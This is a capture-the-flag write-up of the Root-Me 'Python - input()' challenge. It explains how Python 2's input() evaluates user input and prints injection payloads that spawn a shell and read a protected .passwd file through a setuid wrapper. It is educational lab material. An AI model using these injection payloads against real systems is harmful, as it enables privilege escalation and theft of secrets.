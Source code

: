 ### Challenge Documentation: Python - input()

**Category:** Root-Me / App-Script  

**Link:** [Python - input()](https://www.root-me.org/en/Challenges/App-Script/Python-input)

#### **Objective**

The goal is to exploit the insecure use of the Python `input()` function to read and display the hidden password stored in the `.passwd` file.

### **1. Initial Setup**

The challenge provides SSH credentials to access the server:  
- **Host**: `challenge02.root-me.org`  
- **Port**: `2222`  
- **Username**: `app-script-ch6`  
- **Password**: `app-script-ch6`

#### **Connection Command**:
```bash
ssh -p 2222 app-script-ch6@challenge02.root-me.org
```

### **2. Source Code Analysis**

The provided Python script:
```python
#!/usr/bin/python2

import sys

def youLose():
    print "Try again ;-)"
    sys.exit(1)

try:
    p = input("Please enter password : ")
except:
    youLose()

with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```

### **3. Key Observations**

1. The `input()` function in Python 2 **executes the user's input as code**.  
   - This is inherently insecure, as any Python code entered by the user is evaluated directly.

2. The script reads the `.passwd` file to validate the input.  
   - If the value provided by the user matches the content of `.passwd` as an integer, the password is considered correct.

3. By injecting malicious Python code through the `input()` function, we can:  
   - **Execute arbitrary shell commands.**
   - **Read the content of `.passwd`.**

### **4. Exploitation Steps**

#### **Step 1: Start the Vulnerable Script**

Run the provided Python script on the server:
```bash
./setuid-wrapper
```

The script prompts for a password:
```
Please enter password :
```

#### **Step 2: Inject Malicious Code**

We exploit the `input()` function by injecting Python code to read and display the content of `.passwd`:

**Payload:**
```python
__import__("os").execl("/bin/sh", "sh")
```

This spawns an interactive shell. Once inside the shell, we can directly read the `.passwd` file:
```bash
cat .passwd
```

Alternatively, inject a single-line Python command to print the content of `.passwd`:
```python
sys.stdout.write(open(".passwd").readline())
```

#### **Step 3: Retrieve the Password**

The output reveals the password:
```
***************************
```

### **5. Summary of Commands**

Here is the complete set of commands used to solve the challenge:

```bash
ssh -p 2222 app-script-ch6@challenge02.root-me.org

# Run the vulnerable Python script
./setuid-wrapper

# Inject malicious code to spawn a shell
__import__("os").execl("/bin/sh", "sh")

# Once in the shell, read the .passwd file
cat .passwd
```

OR

```bash
# Inject malicious code to print the password directly
sys.stdout.write(open(".passwd").readline())
```

### **6. Output**

The password is displayed after executing the malicious code:
```
***************************
```

### **7. Conclusion**

By exploiting the insecure use of `input()` in Python 2, we executed arbitrary Python code and gained access to the `.passwd` file. This highlights the importance of using `raw_input()` in Python 2 or `input()` in Python 3 for safer input handling.  
